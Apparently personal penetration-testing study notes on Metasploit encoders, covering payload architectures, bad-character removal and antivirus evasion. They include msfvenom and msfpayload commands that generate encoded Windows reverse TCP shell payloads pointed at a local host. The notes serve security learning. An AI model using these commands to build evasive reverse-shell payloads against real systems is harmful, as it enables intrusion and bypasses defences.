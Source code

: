 - `Encoders` come into play with the **role of changing the payload to run on different operating systems and architectures**. These architectures include:

| `x64` | `x86` | `sparc` | `ppc` | `mips` |
| ----- | ----- | ------- | ----- | ------ |
|       |       |         |       |        |

- They are also needed to **remove** hexadecimal opcodes known as **`bad characters` from the payload**.
- Encoding the payload in different formats could **help with the AV detection**.

# Selecting an Encoder
---
- **Before 2015**, If we wanted to create our custom payload, we could do so through `msfpayload`, but we would have to encode it according to the target OS architecture using `msfencode` afterward:
	- `msfpayload windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 R | msfencode -b '\x00' -f perl -e x86/shikata_ga_nai`

- After 2015, **updates to these scripts have combined them within the msfvenom** tool, which takes care of payload generation and Encoding. 
	- `msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl`
	- `msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai`

- Suppose we want to **select an Encoder for an existing payload**. Then, we can use the **`show encoders` command** within the msfconsole to see which encoders are available for our current Exploit module + Payload combination:
	- `show encoders`
	- ![[Pasted image 20250628060332.png]]
- 
